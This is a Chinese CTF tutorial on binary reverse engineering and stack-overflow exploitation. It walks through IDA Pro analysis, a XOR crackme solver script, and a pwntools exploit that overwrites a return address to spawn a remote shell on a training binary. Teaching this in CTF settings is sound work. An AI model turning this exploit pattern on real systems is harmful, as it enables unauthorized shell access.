# CTF逆向工程与漏洞利用：P27：61.61.二进制2




在本节课中，我们将学习CTF中与二进制相关的两个核心知识领域：逆向工程和漏洞利用。我们将首先介绍逆向工程中常用的工具和分析流程，并通过一个实例进行演示。随后，我们将探讨栈溢出漏洞的基本原理及其利用方法，同样会通过一个实例来加深理解。

## 逆向工程常用工具 🛠️

上一节我们介绍了二进制安全的重要性，本节中我们来看看逆向工程中常用的两款工具：PEiD和IDA Pro。

### PEiD



PEiD是一款用于检测程序编译器和保护壳的工具。它可以识别程序是用何种语言（如C、C++、.NET）编写的，以及是否被加壳保护。这对于后续选择正确的逆向分析方法至关重要。

### IDA Pro

IDA Pro是一款功能强大的反汇编和逆向工程神器。以下是其主界面的主要组成部分：

以下是IDA Pro界面的主要功能区域：



*   **工具栏**：提供各种功能按钮。
*   **导航栏**：显示文件地址，点击可跳转到任意位置。
*   **函数窗口**：列出程序中的所有函数。
*   **反汇编窗口**：默认以流程图形式显示函数逻辑，按空格键可切换为汇编代码视图。
*   **伪代码窗口**：按F5键后，IDA会生成当前函数的类C语言伪代码，极大地方便了逻辑分析。
*   **输出窗口**：显示各种操作和脚本的输出信息。
*   **脚本窗口**：支持使用Python或IDC语言编写脚本，辅助自动化分析。

## 逆向工程基本流程 🔄

了解工具后，我们来看一下逆向工程的一般分析流程。

以下是逆向工程通常遵循的几个步骤：

1.  **识别程序**：确定目标程序的语言、架构（如32位/64位）以及是否加壳。
2.  **静态分析寻找关键字符串**：在程序中搜索如“input”、“success”、“fail”等提示字符串，这些字符串能帮助我们快速定位到核心的判断逻辑函数。
3.  **定位关键函数**：通过关键字符串或函数调用关系，找到程序进行输入验证或算法处理的核心函数。
4.  **动态调试辅助分析**：当静态分析无法理清复杂逻辑时，需要使用调试器（如x64dbg, IDA内置调试器）运行程序，观察内存和寄存器的实时变化。
5.  **分析算法**：结合静态的伪代码/汇编代码和动态的调试信息，理解程序处理输入数据的算法。
6.  **编写求解脚本**：根据分析出的算法，使用Python等语言编写脚本，计算出正确的Flag。

## 逆向工程实例分析 🧩

接下来，我们通过一个具体的例子来实践上述流程。



我们有一个名为`sample1`的程序。运行后，它提示“give me the flag”，输入错误会返回错误信息。



首先，我们将其载入IDA Pro进行静态分析。在字符串窗口中，我们发现了“Good job”和“Try again”等字符串。交叉引用这些字符串，我们找到了进行判断的关键函数。



按F5查看该函数的伪代码，逻辑变得清晰：



```c
// 伪代码逻辑示意
length = strlen(user_input);
for ( i = 0; i < length; ++i ) {
    temp[i] = user_input[i] ^ key;
    key = temp[i];
}
if ( compare(temp, encrypted_flag) ) {
    puts("Good job");
}
```





分析可知，程序将用户输入的每个字符与一个`key`进行异或运算，结果存入`temp`数组，同时将本次异或结果作为下一次的`key`。最后，将`temp`数组与预设的`encrypted_flag`数组进行比较。





我们需要找到`key`的初始值和`encrypted_flag`数组的内容。通过动态调试（如使用x64dbg），我们在函数调用时跟踪寄存器，发现`key`的初始值为`0x4`。`encrypted_flag`数组可以在IDA的静态数据区直接提取。





现在，我们可以编写Python脚本来逆向这个算法：





```python
encrypted_data = [0x12, 0x34, 0x56, ...] # 从IDA中提取的数组
key = 0x4
flag_chars = []
for byte in encrypted_data:
    flag_chars.append(chr(byte ^ key))
    key = byte # 更新key为当前密文字节
flag = ''.join(flag_chars[::-1]) # 注意可能需要反序
print(flag)
```





运行脚本，我们得到了正确的Flag，输入程序验证成功。

## 栈溢出漏洞原理与利用 💥

上一节我们完成了逆向工程的分析，本节中我们来看看二进制中的另一种常见题型：栈溢出漏洞利用。





栈溢出主要考察在Linux平台下，通过程序中的缓冲区溢出漏洞，编写利用脚本（Exploit）来获取系统Shell，从而读取Flag。其难点在于需要理解汇编、内存布局和系统保护机制。

### 栈溢出原理

当程序向栈上的固定长度缓冲区写入超过其容量的数据时，多出的数据就会覆盖缓冲区相邻的内存区域。这包括函数的返回地址（Return Address）。



如果攻击者精心构造输入数据，用特定的地址覆盖返回地址，当函数执行完毕试图返回时，程序就会跳转到攻击者控制的地址去执行。如果该地址指向一段攻击者注入的恶意代码（Shellcode），就能实现任意命令执行。

### 安全保护机制



现代系统通常有安全保护：

*   **NX/DEP**：数据执行保护。标记内存页为不可执行，防止在栈或堆上直接运行代码。
*   **ASLR/PIE**：地址空间布局随机化。每次程序运行时，其内存地址（如库函数地址）都会变化，增加预测跳转地址的难度。



### 绕过技术：Return-Oriented Programming (ROP)

由于NX保护，我们无法直接执行Shellcode。ROP技术通过组合程序中已有的代码片段（称为Gadget，通常以`ret`指令结尾）来达到目的。例如，我们可以构造一个伪造的调用栈，依次跳转到`system()`函数的地址，并为其传递参数`/bin/sh`的地址，从而执行`system("/bin/sh")`获得Shell。

## 栈溢出实例分析 🎯



我们来看一个简单的栈溢出例子`pwn1`。使用IDA分析，发现`vulnerable_function`中有一个明显的栈溢出点：`char buf[0x1c];` 但使用了不安全的`read(fd, buf, 0x32);`读入了0x32（50）字节的数据。



程序还有一个后门函数`shell`，直接调用了`system("/bin/sh")`。我们的目标就是利用栈溢出，将返回地址覆盖为`shell`函数的地址。

首先，我们需要确定覆盖返回地址所需的偏移量。可以使用`pattern_create`生成测试字符串，在调试器中触发崩溃后，查看覆盖了指令指针（EIP）的值，再用`pattern_offset`计算偏移。本例中偏移为32字节。



因此，我们的攻击载荷构造为：`32个填充字符（如‘A’） + shell函数的地址`。

使用Pwntools编写利用脚本：

```python
from pwn import *
context(arch='i386', os='linux')
# p = process('./pwn1') # 本地测试
p = remote('目标IP', 端口) # 远程攻击
shell_addr = 0x0804851D # shell函数地址
payload = b'A' * 32 + p32(shell_addr)
p.sendline(payload)
p.interactive() # 进入交互式Shell
```

运行脚本，成功获得了Shell。在Shell中执行`cat flag`即可读取Flag。



## 总结 📝





本节课中我们一起学习了CTF二进制方向的两个核心部分。



在逆向工程部分，我们认识了PEiD和IDA Pro等工具，了解了从识别程序、静态分析、动态调试到最终还原算法的完整流程，并通过一个异或加密的例子进行了实践。

在漏洞利用部分，我们理解了栈溢出的基本原理，学习了NX和ASLR等安全机制，并介绍了通过ROP技术绕过保护的方法。最后，我们通过一个简单的栈溢出题目，演示了如何利用已有的后门函数来获取Shell。



掌握这些基础知识和分析流程，是进一步深入二进制安全领域的必经之路。